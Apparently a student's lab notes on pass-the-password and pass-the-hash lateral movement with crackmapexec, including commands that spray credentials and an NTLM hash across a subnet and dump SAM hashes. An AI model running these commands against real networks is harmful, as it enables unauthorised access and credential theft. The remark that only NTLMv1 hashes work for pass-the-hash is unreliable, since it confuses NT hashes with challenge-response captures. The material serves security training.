 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , Only use NTLMv1 hashes [refer to SMB relay attacks for this type of hashes]. Also make sure to run your `crackmapexec` twice with the same syntax as this may lead to different results.



## **Dumping Password Hashes**

```powershell
# dump SAM hashes of local admin and users

$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```



### **Example**


![](https://i.imgur.com/BPORRyU.png)

We can also dump `shares` and `lsa` (The LSA secrets are **a set of encrypted keys that are stored in the registry**, They could be used or cracked again) passwords of our targets


**_Dumping shares :_**


![](https://i.imgur.com/xPXK6Qs.png)



**_Dumping lsa :_**


![](https://i.imgur.com/FcNerVS.jpg)


